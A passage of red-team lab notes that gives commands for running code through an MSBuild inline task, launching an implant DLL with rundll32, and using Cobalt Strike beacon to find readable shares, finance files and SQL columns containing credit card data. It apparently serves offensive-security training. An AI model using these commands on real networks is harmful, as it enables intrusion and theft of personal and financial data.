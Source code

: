 ```c#
                    using (var runspace = RunspaceFactory.CreateRunspace())
                    {
                      runspace.Open();

                      using (var posh = PowerShell.Create())
                      {
                        posh.Runspace = runspace;
                        posh.AddScript("$ExecutionContext.SessionState.LanguageMode");
                                                
                        var results = posh.Invoke();
                        var output = string.Join(Environment.NewLine, results.Select(r => r.ToString()).ToArray());
                        
                        Console.WriteLine(output);
                      }
                    }

                return true;
              }
            }

        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

### DLL

```bash
C:\Windows\System32\rundll32.exe http_x64.dll,StartW
```


## Data Hunting

### Shares

```bash
# searches for computer shares on the domain
# -CheckShareAccess parameter only shows that shares the current user has read access to.
beacon> powershell Find-DomainShare -CheckShareAccess
# searches each share, returning results where the specified strings appear in the path.
beacon> powershell Find-InterestingDomainShareFile -Include *.doc*, *.xls*, *.csv, *.ppt*
# read file
beacon> powershell gc \\fs.dev.cyberbotic.io\finance$\export.csv | select -first 5
```

### Database

```bash
# search particular keywords
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "email,address,credit,card" -SampleSize 5 | select instance, database, column, sample | ft -autosize
# List tables
beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select * from information_schema.tables')"
beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select column_name from master.information_schema.columns where table_name=''employees''')"
```
